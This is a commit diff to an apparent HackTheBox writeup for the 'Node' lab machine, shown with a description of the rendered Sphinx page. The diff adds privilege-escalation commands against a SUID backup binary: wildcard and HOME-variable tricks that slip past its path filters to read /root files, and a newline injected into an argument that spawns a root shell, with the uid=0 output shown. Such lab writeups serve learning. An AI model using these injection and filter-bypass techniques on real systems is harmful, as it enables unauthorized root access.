

Before and after one commit to zhsh9/HackTheBox-Writeup, a Sphinx documentation site: the page built from source/linux/Node.md, in a window 1280 px wide and 1400 px high, scrolled down 7933 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
[+] update oscp like, Node

````diff
--- a/source/linux/Node.md
+++ b/source/linux/Node.md
@@ -186,9 +186,28 @@
 
 ![image-20231216173936316](./Node.assets/image-20231216173936316.png)
 
-- bypass restrictions to get root flag: `/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r**t/r**t.txt > root0`
+- bypass restrictions to get root flag:
+  - use `*` to bypass filters: `/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r**t/r**t.txt > root0`
+  - use `?` to bypass filters: `/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r??t/r??t.txt > root0`
+  - use configured environment variable `~` to bypass filters: `HOME=/root /usr/local/bin/backup -q '' ~ | base64 -d > root.zip`
+
 
 ![image-20231216174334759](./Node.assets/image-20231216174334759.png)
+
+- A newline in `system` will work just like it does in a Bash script, breaking commands. (**REF**: [HTB: Node | 0xdf hacks stuff](https://0xdf.gitlab.io/2021/06/08/htb-node.html#beyond-root---unintended-roots))
+
+```bash
+tom@node:/$ backup -q "" '
+> /bin/bash
+> '
+
+zip error: Nothing to do! (/tmp/.backup_1445476662)
+To run a command as administrator (user "root"), use "sudo <command>".
+See "man sudo_root" for details.
+
+root@node:/# id
+uid=0(root) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
+```
 
 ### backup buffer overflow
 
````
